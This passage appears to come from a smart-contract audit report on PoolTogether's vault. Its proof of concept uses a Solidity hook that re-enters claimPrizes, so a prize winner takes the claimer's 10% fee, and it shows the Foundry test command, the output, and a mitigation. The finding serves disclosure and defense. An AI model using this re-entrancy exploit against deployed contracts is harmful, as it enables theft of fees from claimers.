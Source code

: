 <details><summary>Imports and Contracts</summary></details>

2. Add the following functions in [`test/Claimable.t.sol::L132`](https://github.com/code-423n4/2024-03-pooltogether/blob/main/pt-v5-vault/test/unit/Claimable.t.sol#L132)

<details><summary>Testing Functions</summary></details>

3. Change [`beforeClaimPrize`](https://github.com/code-423n4/2024-03-pooltogether/blob/main/pt-v5-vault/test/unit/Claimable.t.sol#L254-L274) hook function, and replace it with the following.
```solidity
    function beforeClaimPrize(
        address winner,
        uint8 tier,
        uint32 prizeIndex,
        uint96 reward,
        address rewardRecipient
    ) external returns (address) {
        address[] memory __winners = new address[](1);
        __winners[0] = winner;

        if (tier == 1) {
            __claimer.claimPrizes(__winners, 0, 0, rewardRecipient);
        }

        return winner;
    }
```

4. Check that everything is correct and run

```powershell
forge test --mt testAuditor_winnerStealClaimerFees -vv
```

**Output:**
```powershell
  Winner reward is 100 tokens
  Fees are 10% (10 tokens)
  =============
  Simulating the normal Operation (No stealing)
  Winner PrizeTokens: 90 token
  ClaimerRecipent PrizeTokens: 10 token
  =============
  Simulating winner steal recipient fees
  Winner PrizeTokens: 100 token
  ClaimerRecipent PrizeTokens: 0 token
```

In this test, we first made a reward and withdraw it from our Claimer contract normally (no attack happened), and then we made another prize reward but by making the attack when withdrawing it, which can be seen in the Logs.

### Tools Used
Manual Review + Foundry

### Recommended Mitigation Steps
We can check the prize state before and after the hook and if it changed from unclaimed to claimed, we can revert the transaction.
